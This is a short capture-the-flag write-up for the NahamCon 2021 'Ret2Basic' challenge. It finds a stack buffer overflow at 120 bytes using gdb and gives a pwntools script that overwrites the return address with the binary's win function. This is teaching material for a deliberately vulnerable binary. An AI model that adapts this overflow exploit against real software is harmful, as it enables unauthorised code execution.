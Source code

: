 # NahamCon 2021 - Ret2Basic
Ret2Basic was an overly simple challenge in which we have to overflow a buffer and overwrite the return address with the address at win function.

For this reason this writeup will be extremely quick and non detailed.

## Finding the vulnerability
Finding the vulnerability can be done without any decompiler / disassembler, since there is only a single input which is vulnerable.

Sending a lot of bytes into that input cause a segmentation fault.

Opening the binary inside gdb and running it with a cyclic string shows us that we overwrite the return address of the vuln function after 120 bytes of input.

## Exploiting and Winning the Challenge
Now that we now that we need to input 120 bytes before our new return address, we can start writing our script.

I like to use the "template" utility from the python pwn module, so i ran the following command to have a script template.
```
$ pwn template ./ret2basic > exploit.py
```

Then we can write the exploit script as follows.
```py
io = start()
e = ELF("./ret2basic")

CRASH = 120 * b"A"
WIN_FUNC = p64(e.sym.win)

PAYLOAD = [
	CRASH,
	WIN_FUNC
]

io.sendline(b"".join(PAYLOAD))
```

You can put this little script right after the "EXPLOIT GOES HERE" and then finally run it, this will output the flag.
```
$ ./exploit.py
...
...
...
flag{fake_flag_for_testing}
```
